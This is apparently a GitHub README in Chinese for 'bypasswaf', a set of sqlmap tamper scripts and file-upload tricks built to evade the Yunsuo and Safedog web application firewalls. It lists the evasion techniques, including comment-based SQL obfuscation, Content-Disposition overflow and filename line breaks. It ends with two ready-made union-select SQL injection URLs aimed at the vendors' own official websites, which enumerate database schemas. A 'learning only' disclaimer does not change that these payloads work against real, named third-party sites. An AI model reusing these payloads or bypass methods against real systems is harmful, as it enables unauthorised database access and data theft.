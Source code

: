 # bypasswaf

仅供学习 请勿用作非法用途<br>

2.0：<br>
增加优化了部分规则 现在bypass云锁tamper及bypass安全狗tamper支持所有的注入类型了！<br>
更新了bypass 安全狗 任意文件上传的方法（适用于业务系统存在任意文件上传漏洞但是服务器安装了安全狗环境）<br>
更新了bypass 安全狗 SQL注入tamper，现在支持所有类型的注入了<br>

## 针对最新版云锁和安全狗的sqlmap自动化绕过脚本<br>

包含：<br>
bypass安全狗sql注入tamper <br>
bypass云锁SQL注入tamper （可0警告绕过云锁）<br>
理论上来说规则越多速度也会越慢 所以不追求隐蔽性的可以按需求修改规则<br>

## 针对最新版安全狗的任意文件上传bypass<br>
safedog_upload_yichu.txt<br>
![Image text](https://github.com/pureqh/bypasswaf/blob/master/yichu.png?raw=true)
safedog_upload_huanhang.txt<br>
![Image text](https://github.com/pureqh/bypasswaf/blob/master/huanhang.png?raw=true)


## 利用知识点：<br>
安全狗：内联注释<br>
blog:https://pureqh.top/?p=1882<br>
~~云锁：引号包裹注释符绕过检测~~<br>
~~blog:https://pureqh.top/?p=4175~~<br>
云锁：多行注释符嵌入#绕过检测<br>
blog:https://pureqh.top/?p=4414<br>
文件上传：Content-Disposition参数溢出、文件名换行绕过<br>
blog:https://pureqh.top/?p=1225<br>

## 注：bypass云锁官网  
http://help.yunsuo.com.cn/guide/install/?id=1' REGEXP \"[…%252523]\" union select 1,group_concat(schema_name),3 from information_schema.schemata -- +<br>
## 注：bypass安全狗官网
https://www.safedog.cn/news.html?id=-1'  REGEXP \"[…%0a%23]\"    /\*!11444union %0a select\*/ 1,(select %0a group_concat(schema_name %0a /\*80000aaa\*/) %0a from %0a /\*!11444 /\*REGEXP \"[…%0a%23]\"\*/ %0a information_schema.schemata\*/),3-- +

